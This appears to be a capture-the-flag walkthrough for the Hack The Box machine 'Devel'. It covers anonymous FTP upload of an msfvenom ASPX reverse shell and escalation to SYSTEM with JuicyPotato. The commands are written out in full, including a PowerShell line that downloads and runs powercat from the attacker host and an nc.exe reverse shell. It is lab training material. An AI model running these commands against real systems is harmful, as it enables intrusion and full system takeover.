 # Devel Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sCV -oA devel 10.10.10.5``

21/tcp open  ftp     Microsoft ftpd

80/tcp open  http    Microsoft-IIS/7.5

# ${{\color{purple}Initial Foothold}}\ $

### After a quick enumeration I realize that it is possible to put files on the ftp 
### Access in anonymous is allowed **:white_check_mark:**

# ${{\color{purple}Exploitation}}\ $ 

``ftp 10.10.10.5 21``

``Name (10.10.10.5:kali): anonymous``

``Password:``

``binary ( I use this command to put binaries )``

``put rev.aspx``

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=1234 -f aspx -o rev.aspx``

### OR

``locate aspx_cmd.aspx``

``put aspx_cmd.aspx``

![image](https://user-images.githubusercontent.com/123066149/219397419-44fde1a0-e643-4282-8907-0d00817154bb.png)

# ${{\color{purple}Privilege Escalation}}\ $

### After a quick enumeration I realize that we have the rights :

![devel](https://user-images.githubusercontent.com/123066149/219398041-6b747214-3eb2-4304-b5f8-9ed2307e7072.PNG)

``SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled ``

``SeImpersonatePrivilege        Impersonate a client after authentication Enabled `` **:white_check_mark:**

``SeCreateGlobalPrivilege       Create global objects                     Enabled ``

### I will use ``JuicyPotato.exe``

If the user has ``SeImpersonate`` or ``SeAssignPrimaryToken`` privileges then you are SYSTEM.

### I used powercat to get access to the server via the webshell

``powershell.exe -c IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.16.5:8080/powercat.ps1');powercat -c 10.10.16.5 -p 1234 -e cmd.exe``

![devel2](https://user-images.githubusercontent.com/123066149/219406681-2aee9dba-2860-453a-98a4-a03b67081fd4.PNG)

### And I used this command to get a system access

``Juicy.Potato.x86.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\windows\system32\cmd.exe -a "/c  c:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.16.5 12344" -t *``

![image](https://user-images.githubusercontent.com/123066149/219407362-aa14e1c1-cc66-4084-8270-c3fd0dbc732f.png)

### To find the right CLSID (-c I used this site) :

https://ohpe.it/juicy-potato/CLSID/ 

### OR

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

### To check the rights before making a long shell it is possible to use this command


``Juicy.Potato.x86.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -t * -p whoami``

![image](https://user-images.githubusercontent.com/123066149/219410104-8bcb8a91-3dbd-4b1a-9446-298b86ad72a6.png)


# ${{\color{purple}Points of Improvement}}\ $

* Check the system version to find the correct CLSID for Juicy.Potato
* Check the system version to find the right JuicyPotato
* Remember to use the ``binary`` mode of the ``ftp`` to transfer the ``.exe`` files

